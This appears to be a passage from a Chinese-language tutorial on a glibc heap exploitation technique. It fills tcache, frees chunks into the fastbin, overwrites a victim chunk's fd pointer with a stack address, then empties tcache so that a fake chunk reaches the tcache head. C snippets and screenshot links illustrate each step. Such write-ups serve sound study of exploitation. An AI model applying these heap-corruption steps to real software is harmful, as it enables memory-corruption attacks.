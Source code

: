 这样就将tcache填满了。

然后重点来了，我们记录下attack chunk(第8个被释放chunk(也就是第一个加入fashbin的chunk

)的指针。

![image-20220618185010440](image-20220618185010440.png)然后再释放掉所用的chunk,让它们全部加入fastbin。

```c
  char* victim = ptrs[7];

  free(victim);
  // Fill the fastbin.
  for (i = 8; i < 14; i++) {
    free(ptrs[i]);
  }
```

然后获取栈上地址为目标写入地址，同时将attack chunk的fd改为目标写入地址-0x10的地址：

```c
  // Create an array on the stack and initialize it with garbage.
  size_t stack_var[6];
  memset(stack_var, 0xcd, sizeof(stack_var));

  // Overwrite linked list pointer in victim.
  *(size_t**)victim = &stack_var[0];

```

创造7个chunk 让tcache 清空.

![image-20220618185047126](image-20220618185047126.png)

```c
  // Empty tcache.
  for (i = 0; i < 7; i++) {
    ptrs[i] = malloc(allocsize);
  }

  malloc(allocsize);
```

这时，再创一个chunk 就可以看到攻击完成attack chunk 的 fd 对应地址+0x10变成一个fake chunk的进入 tcache 首。

![image-20220618185221433](image-20220618185221433.png)

在与之同时，将 fd 对应地址的值，加入到原本大小fastbin 中

并且，在攻击完成前：

![image-20220618185120234](image-20220618185120234.png)

在攻击完成后：

![image-20220618185244042](image-20220618185244042.png)
